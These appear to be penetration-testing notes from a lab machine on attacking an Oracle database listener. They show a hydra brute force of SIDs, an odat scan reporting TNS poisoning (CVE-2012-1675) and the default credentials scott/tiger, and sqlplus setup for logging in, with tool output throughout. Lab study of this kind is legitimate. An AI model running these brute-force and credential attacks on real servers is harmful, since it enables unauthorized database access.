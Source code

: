 ## hydra SID brute force
```
hydra -L /usr/share/metasploit-framework/data/wordlists/sid.txt -s 1521 10.10.10.82 oracle-sid
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-06 18:30:04
[DATA] max 16 tasks per 1 server, overall 16 tasks, 576 login tries (l:576/p:1), ~36 tries per task
[DATA] attacking oracle-sid://10.10.10.82:1521/
[1521][oracle-sid] host: 10.10.10.82   login: XE
[1521][oracle-sid] host: 10.10.10.82   login: PLSExtProc
[STATUS] 496.00 tries/min, 496 tries in 00:01h, 80 to do in 00:01h, 16 active
[1521][oracle-sid] host: 10.10.10.82   login: CLRExtProc
[1521][oracle-sid] host: 10.10.10.82
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-01-06 18:31:35
```

## odat
* see: https://book.hacktricks.xyz/pentesting/1521-1522-1529-pentesting-oracle-listener
* install odat
```
pip3 install cx_Oracle
git clone https://github.com/quentinhardy/odat.git
cd odat
```
* bruteforce credentials
```
python3 odat.py all -s 10.10.10.82 -p 1521 -d XE

[1] (10.10.10.82:1521): Is it vulnerable to TNS poisoning (CVE-2012-1675)?
[+] The target is vulnerable to a remote TNS poisoning

[2] (10.10.10.82:1521): Searching valid accounts on the XE SID

[+] Valid credentials found: scott/tiger. Continue... 
```

## Log in to Oracle DB with credentials
**install sqlplus:**
1. create /opt/oracle
2. download basic, sqlplus and sdk from [here](http://www.oracle.com/technetwork/database/features/instant-client/index-097480.html)
3. unzip
4. create symlink (adjust version number!): ```ln libclntsh.so.12.1 libclntsh.so``` and run ```ldconfig```
5. add the following to /etc/profile or .bashrc/.zshrc (adjust version number!):
```
export PATH=$PATH:/opt/oracle/instantclient_12_1
export SQLPATH=/opt/oracle/instantclient_12_1
export TNS_ADMIN=/opt/oracle/instantclient_12_1
export LD_LIBRARY_PATH=/opt/oracle/instantclient_12_1
export ORACLE_HOME=/opt/oracle/instantclient_12_1
```
6. add oracle libraries to ldconfig:
```
echo "/opt/oracle/instantclient_12_1/" >> /etc/ld.so.conf.d/99_oracle
```
7. done, now run ```sqlplus <username>/<password>@<ip_address>/<SID>;```
